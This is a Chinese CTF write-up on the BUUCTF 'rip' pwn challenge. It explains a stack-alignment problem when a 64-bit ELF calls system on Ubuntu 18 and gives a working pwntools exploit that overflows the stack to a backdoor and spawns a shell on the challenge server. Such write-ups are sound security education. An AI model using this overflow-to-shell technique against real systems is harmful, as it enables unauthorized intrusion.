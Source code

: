 ```yaml
---
title: 「BUUCTF」Pwn - Rip Ubuntu18中64位ELF在调用system时候可能出现的问题
date: 2021-11-29 0:00:00
tags: ['BUUCTF', 'Pwn', 'Problems']
categories: ['CTF']
authors: [nova]
index_img: https://novanoir.moe/img/ctf_logo_1.png
banner_img: https://novanoir.moe/img/ctf_banner_1.png

---
```


# Ubuntu18中64位ELF在调用system时候可能出现的问题

这几天配好了Ubuntu18，测试的时候出现了一个问题。

研究了好久才解决，记录一下。

[题目\__Buuoj__RIP](https://buuoj.cn/challenges#rip)

<!--truncate-->

### 问题

这题是最基础的一个栈溢出题。有后门函数直接`system("/bin/sh");`，什么保护都没开，直接把返回地址覆盖按理来说就可以了。

本地测试的时候也确实是这样的，但是远程却出现了问题。

于是我拿自己的Ubuntu18测试了一下，发现同样出现了错误。

一通搜索之后才发现，ubuntu18及以上的libc中，64位ELF程序调用system函数时候需要考虑堆栈平衡

### 解决方法

改变Payload的长度或者进行栈转移即可



主要思路就是改变栈的地址。

这里贴一下exp

```python
from pwn import *
context(log_level='debug', arch='amd64', os='linux')

# sh = process("./pwn1")
sh = remote("node4.buuoj.cn", 29726)

# sh.recvuntil('please input\n')

backdoor_addr = 0x0401186
# payload = b'a'*(0xf+8) + p64(backdoor_addr) # 正常思考，但是没有对齐所以会错误
# payload = b'a'*0xf + p64(backdoor_addr) # exp1, 但是稍微有点没看明白为什么这样可以:<
# payload = b'a'*(0xf+8) + p64(backdoor_addr) + p64(backdoor_addr - 1) # exp 2, 这里的backdoor_addr - 1对应了一个retn，换成其他的也可以，也是为了堆栈平衡
payload = b'a'*(0xf+8) + p64(backdoor_addr + 1) # exp 3, +1 让call_system函数中检查对齐的那个地址对齐0x10
"""
不一定是+1,最多16次肯定能对齐,还不行就栈转移吧www
"""
sh.sendline(payload)
sh.interactive()
```

### 深入

在这里我准备深入研究一下此时的堆栈，也算是gdb的初探门径

> 寄，Ubuntu18的gdb好像炸了。等修好了再补充:<



## 参考博客

[在一些64位的glibc的payload调用system函数失败问题](http://blog.eonew.cn/archives/958)

[ret2text涉及到的堆栈平衡问题](https://blog.csdn.net/qq_41560595/article/details/112161243)

[升级gcc7.3之后MOVAPS指令导致的程序coredump解决过程](https://www.pianshen.com/article/8326860581/)